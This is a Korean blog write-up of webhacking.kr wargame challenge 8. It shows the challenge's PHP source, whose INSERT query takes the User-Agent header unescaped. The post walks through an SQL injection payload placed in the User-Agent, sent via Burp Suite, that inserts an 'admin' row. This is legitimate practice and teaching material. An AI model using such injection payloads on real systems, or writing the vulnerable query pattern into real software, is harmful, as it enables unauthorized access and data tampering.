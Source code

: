 ```yaml
---
title: "[webhacking.kr] 8번 문제 풀이[SQL]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - SQL
toc: true
toc_sticky: true
toc_label: "8번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
---
```


💡 Webhacking.kr challenge(old) 7번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제

## 문제 화면
![image](https://user-images.githubusercontent.com/33647663/150669805-ed40d507-aaab-427f-a3d4-a17790bde07b.png)


## 소스코드
 ```php
  <?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
?><html>
<head>
<title>Challenge 8</title>
<style type="text/css">
body { background:black; color:white; font-size:10pt; }
</style>
</head>
<body>
<br><br>
<center>
<?php
$agent=trim(getenv("HTTP_USER_AGENT"));
$ip=$_SERVER['REMOTE_ADDR'];
if(preg_match("/from/i",$agent)){
  echo("<br>Access Denied!<br><br>");
  echo(htmlspecialchars($agent));
  exit();
}
$db = dbconnect();
$count_ck = mysqli_fetch_array(mysqli_query($db,"select count(id) from chall8"));
if($count_ck[0] >= 70){ mysqli_query($db,"delete from chall8"); }

$result = mysqli_query($db,"select id from chall8 where agent='".addslashes($_SERVER['HTTP_USER_AGENT'])."'");
$ck = mysqli_fetch_array($result);

if($ck){
  echo "hi <b>".htmlentities($ck[0])."</b><p>";
  if($ck[0]=="admin"){
    mysqli_query($db,"delete from chall8");
    solve(8);
  }
}

if(!$ck){
  $q=mysqli_query($db,"insert into chall8(agent,ip,id) values('{$agent}','{$ip}','guest')") or die("query error");
  echo("<br><br>done!  ({$count_ck[0]}/70)");
}
?>
<a href=./?view_source=1>view-source</a>
</body>
</html>

 ```

# 풀이

## 문제 분석
  문제를 해결하기 위한 solve함수가 호출되는 부분은 다음과 같습니다.
  ```php
  $agent=trim(getenv("HTTP_USER_AGENT")); // 나의 패킷에서 USER_AGENT 값을 추출
  $ip=$_SERVER['REMOTE_ADDR']; // 나의 IP 추출
  if(preg_match("/from/i",$agent)){ //agent 에서 from 문자열 필터링
    echo("<br>Access Denied!<br><br>");
    echo(htmlspecialchars($agent));
    exit();
  }
  $db = dbconnect();

  $result = mysqli_query($db,"select id from chall8 where agent='".addslashes($_SERVER['HTTP_USER_AGENT'])."'");
  $ck = mysqli_fetch_array($result);
  // user_agent 값을 기준으로 id를 불러옴
  if($ck){
    echo "hi <b>".htmlentities($ck[0])."</b><p>";
    if($ck[0]=="admin"){
      mysqli_query($db,"delete from chall8");
      solve(8);
    }
  }
  // 해당 쿼리 결과로 id값이 'admin'이면 solve;

  if(!$ck){
  $q=mysqli_query($db,"insert into chall8(agent,ip,id) values('{$agent}','{$ip}','guest')") or die("query error");
  echo("<br><br>done!  ({$count_ck[0]}/70)");
  }
  // 만약 쿼리 결과가 없다면 현재 내 user_agent,ip를 기준으로 'guest' 유저를 db에 저장한다.
  ```

  위 부분을 보니, 저의 user_agent 값을 기준으로 DB에서 쿼리를 했을 때 id가 'admin'이어야 합니다. 그리고 저의 user_agent 값이 insert 문으로 DB에 저장되기 때문에 이 부분을 우회하여 계정을 'guest'가 아닌 'admin'으로 저장해 보겠습니다.
  
  먼저 user_agent 값을 변조하기 위해서는 Burp Suite 같은 프록시 툴을 이용해서 패킷을 잡아야 합니다.

  아래 그림에서 보이는 부분이 아무런 변조를 하지 않았을 때 서버로 날아가는 저의 패킷 입니다.

  ![image](https://user-images.githubusercontent.com/33647663/150669956-689c1003-ca20-4d9a-9723-4894787aaa43.png)

  ```md
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
  ```
  기본 User-Agent 값은 위와 같으며 이 내용을 이용해서 insert 부분을 우회해 보겠습니다.

  먼저 위의 내용이 서버로 전달되면 서버에서는 다음 SQL문이 작동합니다.

  ```sql
  "insert into chall8(agent,ip,id) values('{$agent}','{$ip}','guest')"
  ```

  위에서 $agent 부분을 다음과 같이 넣어주겠습니다.

  ```md
  1234','1','admin'),('5678
  ```
  $agent 부분을 위의 문자열을 대입해 보면 서버쪽에서 동작하는 sql 문은 다음과 같이 변조가 됩니다.
  ```sql
  "insert into chall8(agent,ip,id) values('1234','1','admin'),('5678','{$ip}','guest')"
  ```

  이를 이용해서 실제로 패킷을 변조해서 보내 보겠습니다.

  ![image](https://user-images.githubusercontent.com/33647663/150670144-578291ae-2450-49d5-8e3c-bd69b7f04df7.png)

  
  이제 서버로 User-Agent 값을 1234를 보내면 됩니다.

  ![image](https://user-images.githubusercontent.com/33647663/150670228-c846e50b-6fd9-4545-b6a7-28ec6823a14b.png)

  그러면 문제가 풀립니다.

  ![image](https://user-images.githubusercontent.com/33647663/150670275-c7f13551-bbfa-4054-84d2-45eb731227bd.png)

